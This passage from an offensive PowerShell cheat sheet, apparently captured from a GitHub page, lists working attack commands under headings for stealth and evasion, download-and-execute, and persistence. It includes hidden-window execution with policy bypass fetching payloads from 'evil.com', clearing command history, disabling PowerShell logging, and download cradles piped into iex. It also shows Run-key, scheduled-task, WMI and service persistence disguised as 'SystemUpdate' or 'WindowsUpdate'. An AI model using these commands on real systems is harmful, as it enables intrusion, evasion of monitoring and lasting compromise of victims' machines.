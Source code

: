 ### 3. Stealth & Evasion
```powershell
# Hidden window execution
powershell -WindowStyle Hidden -c "command"

# No profile loading
powershell -nop -c "command"

# Combine stealth flags
powershell -nop -w hidden -ep bypass -c "iex (iwr 'http://evil.com/payload')"

# Clear PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

# Disable logging
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\PowerShell\ModuleLogging" -Name "EnableModuleLogging" -Value 0
```

### 4. Download & Execute Techniques
```powershell
# Method 1: WebClient
(New-Object Net.WebClient).DownloadString('http://bit.ly/payload') | iex

# Method 2: Invoke-WebRequest
iex (iwr 'http://example.com/script.ps1' -UseBasicParsing).Content

# Method 3: Download file
Invoke-WebRequest -Uri 'http://example.com/tool.exe' -OutFile 'C:\temp\tool.exe'

# Method 4: Background download
Start-Job -ScriptBlock {iwr 'http://example.com/large-file.zip' -OutFile 'C:\temp\file.zip'}
```

### 5. Persistence Mechanisms
```powershell
# Registry Run key
Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "Update" -Value "powershell -w hidden -c iex (iwr 'http://evil.com/payload')"

# Scheduled task
$action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-w hidden -c iex (iwr 'http://evil.com/payload')"
$trigger = New-ScheduledTaskTrigger -AtLogOn
Register-ScheduledTask -TaskName "SystemUpdate" -Action $action -Trigger $trigger

# WMI event subscription
$query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfRawData_PerfOS_System'"
Register-WmiEvent -Query $query -Action {iex (iwr 'http://evil.com/payload')}

# Service creation
New-Service -Name "WindowsUpdate" -BinaryPathName "powershell.exe -w hidden -c iex (iwr 'http://evil.com/payload')" -StartupType Automatic
```

---